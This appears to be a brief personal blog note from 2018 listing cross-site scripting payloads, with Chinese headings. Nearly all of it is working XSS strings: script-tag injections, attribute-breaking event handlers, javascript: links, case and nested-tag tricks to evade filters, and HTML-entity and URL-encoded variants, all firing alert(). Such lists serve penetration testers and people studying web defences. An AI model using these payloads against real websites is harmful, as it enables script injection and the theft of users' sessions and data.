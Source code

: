 ```yaml
---
layout: post
title: xss_note
abbrlink: 505126279
date: 2018-09-16 00:00:00
category:
tags:
---
```

xss的payload
1
<script>alert(/xss/)</script>
2
"><script>alert(/xss/)</script>

3

'onmouseover='alert(/xss/)'

4
" oninput=alert`xss`//
" onfocus=alert`xss` autofocus= "
" onchange=alert`xss` "


<img src=x onerror=alert(/xss/)>

5

"><a href=javascript:alert(/xss/)>

6
"><A HREF=javascript:alert(/xss/)>

7
"><scrscriptipt>alert(/xss/)</scscriptript>

8
html 字符实体编码转换
java&#x73;cript:alert(1)

9
java&#x73;cript:alert(1)/*http://*/

10
&t_sort=a" onclick="alert(1)"

15
urlencode
%0a%0d
<img%0asrc=xx%0aonerror=alert(/xss/)>

